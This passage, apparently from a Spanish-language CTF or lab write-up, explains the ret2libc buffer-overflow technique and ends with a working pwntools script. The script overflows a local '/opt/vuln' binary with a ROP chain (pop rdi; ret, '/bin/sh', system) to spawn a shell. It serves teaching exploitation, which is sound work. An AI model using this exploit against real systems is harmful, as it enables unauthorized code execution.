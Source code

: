 #### **¿Qué es la técnica de `ret2libc`?**

La técnica **ret2libc** es un ataque de **desbordamiento de buffer** utilizado para ejecutar funciones de la **librería estándar de C** (libc) sin necesidad de tener que escribir código malicioso como shellcode. En lugar de inyectar código directamente, el atacante redirige la ejecución del programa para llamar funciones ya presentes en la librería del sistema, como `system()`, que permite ejecutar comandos en el sistema operativo.

En un ataque **ret2libc**:

1. **Buffer overflow**: El atacante provoca un desbordamiento en un buffer, lo que sobrescribe el **registro de retorno** (el **RIP** o **EIP** en arquitecturas modernas) y lo redirige a una **función de libc**, por ejemplo, `system()`.
2. **Gadget de ROP**: Utiliza gadgets que permiten controlar los registros necesarios para invocar funciones en la libc de manera adecuada, como cargar los parámetros requeridos por la función `system()` (como la dirección de `"/bin/sh"`).
3. **Ejecutar comandos**: Esto permite al atacante ejecutar comandos del sistema, como abrir una shell con `system("/bin/sh")`.

**Identificación de gadgets útiles**:

* Para realizar un ataque **ret2libc**, necesitamos **gadgets** que nos ayuden a preparar los registros para llamar a la función que queremos. En este caso, el **gadget** necesario es `pop rdi; ret`, que nos permite poner un argumento en el registro **rdi** (el primer argumento de una función en la convención de llamada **x86\_64**).
* Usamos **ROPgadget** para encontrar estos gadgets. En el caso de nuestro binario, el gadget `pop rdi; ret` lo encontramos en la dirección `0x40116a`.

**Encontrar direcciones en la libc**:

* Para poder llamar a `system()`, necesitamos la dirección de esa función dentro de la memoria. Esta dirección está contenida dentro de la **librería libc** (una librería estándar que es utilizada por muchos programas).
* Una forma de encontrar esta dirección es **buscar en memoria** por la cadena `"/bin/sh"`, que es el argumento que pasa a la función `system()` para ejecutar un shell. En este caso, la dirección encontrada fue `0x7ffff7f73031`.

**Obtener la dirección de `system()`**:

* Para realizar el ataque, necesitamos la dirección de la función `system()`, que es la que ejecutará el comando `/bin/sh` en el sistema. Usamos `pwn` para obtener esta dirección desde la librería **libc**.

Sabiendo toda esta informacion vamos a montarnos un `script` en `python3`:

```python
from pwn import *

# Cargar el binario
binary = ELF('/opt/vuln')
p = process('/opt/vuln')

# Direcciones relevantes
pop_rdi_ret = 0x40116a          # Dirección del gadget `pop rdi ; ret`
ret = 0x401016                  # Gadget `ret` para alineación (opcional)
bin_sh = 0x7ffff7f73031         # Nueva dirección de "/bin/sh"
system = 0x7ffff7e29490         # Dirección de `system`

# Construcción del payload
offset = 136                    # Offset para sobrescribir el RIP
payload = b"A" * offset         # Relleno
payload += p64(pop_rdi_ret)     # Gadget `pop rdi ; ret`
payload += p64(bin_sh)          # Dirección de "/bin/sh"
payload += p64(ret)             # Gadget `ret` para alineación (opcional)
payload += p64(system)          # Dirección de `system`

# Enviar el payload
p.sendline(payload)
```